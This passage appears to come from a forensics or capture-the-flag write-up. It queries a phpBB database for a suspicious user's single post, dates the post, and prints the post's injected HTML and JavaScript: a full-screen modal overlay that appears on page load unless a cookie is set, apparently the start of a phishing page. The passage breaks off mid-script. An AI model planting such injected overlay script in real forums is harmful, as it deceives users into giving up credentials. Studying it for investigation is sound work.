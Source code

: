     
    
    sqlite> select post_id, forum_id, topic_id, poster_ip, datetime(post_time, 'unixepoch'), post_username, post_subject, post_attachment, post_edit_count from phpbb_posts where poster_id = 52;
    9|2|2|10.10.0.78|2023-04-25 12:17:22||Hello Everyone|0|0
    

Searching by `post_ip` returns the same single post, with `post_id` of 9 (Task
3), that was created at 1682425042, which is Tuesday, April 25, 2023 12:17:22
PM.

#### Post Analysis

The query `select post_text from phpbb_posts where poster_id = 52;` returns
HTML content which beautifies to:

    
    
    <div>
      <style>
        body {
          z-index: 100;
        }
    
        .modal {
          position: fixed;
          top: 0;
          left: 0;
          height: 100%;
          width: 100%;
          z-index: 101;
          background-color: white;
          opacity: 1;
        }
    
        .modal.hidden {
          visibility: hidden;
        }
      </style>
      <script type="text/javascript">
        function sethidden() {
          const d = new Date();
          d.setTime(d.getTime() + (24 * 60 * 60 * 1000));
          let expires = "expires=" + d.toUTCString();
          document.cookie = "phpbb_token=1;" + expires + ";";
          var modal = document.getElementById('zbzbz1234');
          modal.classList.add("hidden");
        }
        document.addEventListener("DOMContentLoaded", function(event) {
          let cookieexists = false;
          let name = "phpbb_token=";
          let cookies = decodeURIComponent(document.cookie);
          let ca = cookies.split(';');
          for (let i = 0; i < ca.length; i++) {
            let c = ca[i];
            while (c.charAt(0) == ' ') {
              c = c.substring(1);
            }
            if (c.indexOf(name) == 0) {
              cookieexists = true;
            }
          }
          if (cookieexists) {
            return;
          }
          var modal = document.getElementById('zbzbz1234');
          modal.classList.remove("hidden");
        });